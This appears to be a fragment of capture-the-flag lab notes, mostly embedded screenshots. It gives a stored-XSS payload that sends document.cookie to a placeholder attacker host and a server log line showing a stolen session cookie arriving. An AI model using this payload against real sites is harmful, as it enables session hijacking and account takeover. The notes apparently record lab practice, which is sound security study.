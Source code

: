 
![[IMG-20251019010816231.png]]

![[IMG-20251020020106833.png]]

Payload: 
```javascript
<img src=1 onerror="document.location='http://<YOUR-IP>/steal/'+ document.cookie">
```
![[IMG-20251019010758982.png]]
```bash
10.10.11.88 - - [20/Oct/2025 01:59:12] "GET /session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aPV7TA.5f9IJS6TqVJVOBtjrOaf32LME_k HTTP/1.1" 404 -
```

![[IMG-20251020020036016.png]]

![[IMG-20251020020120150.png]]

![[IMG-20251020021551687.png]]

![[IMG-20251020023635138.png]]



